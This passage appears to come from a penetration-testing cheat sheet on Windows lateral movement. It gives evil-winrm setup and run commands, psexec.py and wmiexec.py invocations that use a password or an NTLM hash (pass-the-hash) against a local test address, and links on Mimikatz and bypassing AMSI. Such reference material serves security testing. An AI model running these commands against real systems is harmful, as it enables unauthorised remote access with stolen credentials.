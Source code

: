 * [github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
* [malicious.link/post/2020/run-as-system-using-evil-winrm/](https://malicious.link/post/2020/run-as-system-using-evil-winrm/)

Install:

```
$ git clone https://github.com/Hackplayers/evil-winrm ~/tools/evil-winrm
$ cd ~/tools/evil-winrm && bundle install && cd -
$ ln -s ~/tools/evil-winrm/evil-winrm.rb /usr/local/bin/evil-winrm.rb
Or
$ gem install evil-winrm
```

Run:

```
$ evil-winrm.rb -u j1v37u2k3y -p 'Passw0rd!' -i 127.0.0.1 -s `pwd` -e `pwd`
```




## SMB (PsExec)

* [www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)


### psexec.py

```
root@kali:$ psexec.py j1v37u2k3y:'Passw0rd!'@127.0.0.1
root@kali:$ psexec.py -hashes :6bb872d8a9aee9fd6ed2265c8b486490 j1v37u2k3y@127.0.0.1
```




## WMI

* [www.ethicalhacker.net/features/root/wmi-101-for-pentesters/](https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/)



### wmiexec.py

```
root@kali:$ wmiexec.py j1v37u2k3y:'Passw0rd!'@127.0.0.1
root@kali:$ wmiexec.py -hashes :6bb872d8a9aee9fd6ed2265c8b486490 j1v37u2k3y@127.0.0.1
```





# Mimikatz

* [s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/](https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/)
* [s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)
